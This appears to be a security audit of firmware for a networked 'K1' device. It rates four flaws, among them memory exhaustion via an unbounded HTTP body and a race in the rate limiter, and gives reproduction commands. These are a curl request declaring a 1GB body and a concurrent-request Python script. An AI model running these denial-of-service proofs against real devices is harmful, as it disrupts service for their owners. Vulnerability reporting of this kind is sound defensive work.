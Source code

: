 ### Impact

- **User Experience:** Device becomes completely unusable
- **Availability:** Service down 90%+ of the time
- **Recovery:** Requires manual power cycle or firmware downgrade
- **Scope:** Affects any K1 device on local network

---

## Summary Table

| # | Vulnerability | Type | Severity | Exploitability | Status | Fix Complexity |
|---|---|---|---|---|---|---|
| 1 | Memory Exhaustion via Unbounded HTTP Body | CWE-400 Uncontrolled Resource Consumption | **CRITICAL (9/10)** | Trivial | CONFIRMED | Low (1 max size check) |
| 2 | Race Condition in Rate Limiter | CWE-362 Concurrent Execution Race Condition | **CRITICAL (9/10)** | Moderate | CONFIRMED | Medium (add spinlock) |
| 3 | Memory Leaks from Handler Allocation | CWE-401 Missing Release of Memory | **HIGH (7/10)** | Direct (device uptime) | CONFIRMED* | Low-Medium (best practice) |
| 4 | Missing Handler Registration Pattern | Code Organization Inconsistency | **MEDIUM (5/10)** | None (works correctly) | CONFIRMED | Low (refactoring) |

*Acceptable for current design but should be fixed preventatively

---

## Verification Commands

### Reproduce Vulnerability 1: Memory Exhaustion

```bash
# Attack with curl: attempt to send 1GB body
curl -X POST \
  -H "Content-Length: 1073741824" \
  -H "Content-Type: application/json" \
  -d '{"brightness":1.0}' \
  http://k1-reinvented.local/api/params \
  --max-time 5

# Expected: Device becomes unresponsive or returns 500
```

### Reproduce Vulnerability 2: Rate Limit Bypass

```bash
# Python script: concurrent requests
python3 << 'EOF'
import concurrent.futures
import requests

def hit_endpoint():
    try:
        r = requests.post('http://k1-reinvented.local/api/params',
                         json={'brightness': 0.5}, timeout=2)
        return r.status_code
    except:
        return None

with concurrent.futures.ThreadPoolExecutor(max_workers=8) as ex:
    results = list(ex.map(lambda _: hit_endpoint(), range(8)))

allowed_count = sum(1 for r in results if r == 200)
print(f"Allowed: {allowed_count}/8 (expected: 1)")
if allowed_count > 1:
    print("RACE CONDITION CONFIRMED")
EOF
```